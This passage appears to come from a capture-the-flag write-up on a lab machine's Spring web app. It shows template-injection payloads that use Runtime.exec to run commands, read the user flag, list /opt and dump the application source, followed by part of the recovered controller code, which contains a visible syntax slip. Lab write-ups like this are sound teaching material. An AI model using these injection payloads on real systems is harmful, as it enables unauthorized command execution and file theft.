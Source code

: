 After messing about for a bit, we find that the injection 
```java 
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("id").getInputStream())}
``` 

returns the output of the `id` command.

We can also use this technique to read the user flag with the command `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("cat /home/woodenk/user.txt").getInputStream())}`

I also found that the `/opt` directory contained the application directory for panda_search, however since the `_` charachter is blacklisted I could not directly read it. Instead i used  `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("find /opt -name *").getInputStream())}`, which uses `find` to list everything in the `/opt` directory, including subdirectories and files. I found that the applications controller was in the `opt` directory, nested in a lot of subdirectories, however to actually read the file I did some weird bash stuff again since I did not want to deal with smuggling in the `_` character. Instead I injected `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("grep -r -v fqwefwe /opt").getInputStream())}`. This comands greps all files recursively in the `/opt` dir for strings not matching fqwefwe. This includes all lines in the controller, found below:

```java
package com.panda_search.htb.panda_search;

import java.util.ArrayList;
import java.io.IOException;
import java.sql.*;
import java.util.List;
import java.util.ArrayList;
import java.io.File;
import java.io.InputStream;
import java.io.FileInputStream;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.http.MediaType;

import org.apache.commons.io.IOUtils;

import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;
import org.jdom2.output.Format;
import org.jdom2.output.XMLOutputter;
import org.jdom2.*;

@Controller
public class MainController {
  @GetMapping("/stats")
    public ModelAndView stats(@RequestParam(name="author",required=false) String author, Model model) throws JDOMException, IOException{
    SAXBuilder saxBuilder = new SAXBuilder();
    if(author == null)
    author = "N/A";
    author = author.strip();
    System.out.println(""+ author "");
    if(author.equals("woodenk") || author.equals("damian"))
    {
      String path = "/credits/" + author + "_creds.xml";
```